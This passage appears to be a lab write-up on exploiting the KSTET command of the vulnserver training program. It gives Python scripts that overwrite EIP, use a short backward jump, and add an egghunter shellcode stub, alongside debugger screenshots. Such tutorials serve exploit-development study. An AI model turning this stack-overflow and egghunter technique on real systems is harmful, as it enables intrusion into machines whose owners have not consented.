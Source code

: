 ```python
```

Sending the initial payload:

<img src="/images/vulnserver/kstet/kstet-send-crash1.png" alt="kstet-send-crash1" width="700"/>

We see the same vanilla stack overflow and see the small space we have to work with.

<img src="/images/vulnserver/kstet/kstet-crash1.png" alt="kstet-crash1" width="900"/>

I will skip over the steps to locate `eip` and a `JMP ESP` instruction to take over flow of execution since it was covered in the [TRUN post](/_posts/vulnserver/2019-01-30-trun.md).

```python
#!/usr/bin/env python

import socket
import sys

pre_buf = 'A' * 70
eip = '\xBB\x11\x50\x62'
jmp = '\x90\xEB\xB5' 
post_buf = 'C' * (26 - len(jmp))
buffer = pre_buf + eip + jmp + post_buf
command = 'KSTET '
data = command + buffer

print '[*] Sending data: ' + command + buffer.encode('hex')
s = socket.create_connection(('192.168.185.146',9999))
s.sendall(data)
s.close()
```

Looking at the crash after we have control over `eip`, we can see the buffer we have to work with is extremely small. We cannot place the egg hunter code in this small buffer of __C's__.

<img src="/images/vulnserver/kstet/kstet-crash2-limited-space-1.png" alt="kstet-crash2-limited-space-1" width="900"/>

As in the [TRUN post](/_posts/vulnserver/2019-02-07-gmon.md), we can insert a jump short instruction (`EB`) to jump back into our buffer of __A's__.

<img src="/images/vulnserver/kstet/kstet-send-crash5-jmp-short.png" alt="kstet-send-crash5-jmp-short" width="700"/>

Use __Mona__ to generate our egg hunter code with `!mona egghunter -wow64`.

<img src="/images/vulnserver/kstet/mona-generate-egghunter.png" alt="mona-generate-egghunter" width="700"/>

We can also update the exploit to contain our egg hunter payload which will search memory for our unique string (egg). The egg is defined in the egg hunter assembly (`\x77\x30\x30\x74` = `w00t`) and you can change it if you want/need to.

```python
#!/usr/bin/env python

import socket
import sys

nopsled = '\x90' * 4
egghunter = '\x31\xdb\x53\x53\x53\x53\xb3\xc0\x66\x81\xca\xff\x0f\x42\x52\x6a'
egghunter += '\x26\x58\x33\xc9\x8b\xd4\x64\xff\x13\x5e\x5a\x3c\x05\x74\xe9\xb8'
egghunter += '\x77\x30\x30\x74\x8b\xfa\xaf\x75\xe4\xaf\x75\xe1\xff\xe7'
pre_buf = 'A' * (70 - len(egghunter) - len(nopsled))
eip = '\xBB\x11\x50\x62'
jmp = '\x90\xEB\xB5' 
post_buf =  'C' * (26 - len(jmp))
buffer = nopsled + egghunter + pre_buf + eip + jmp + post_buf
command = 'KSTET '
```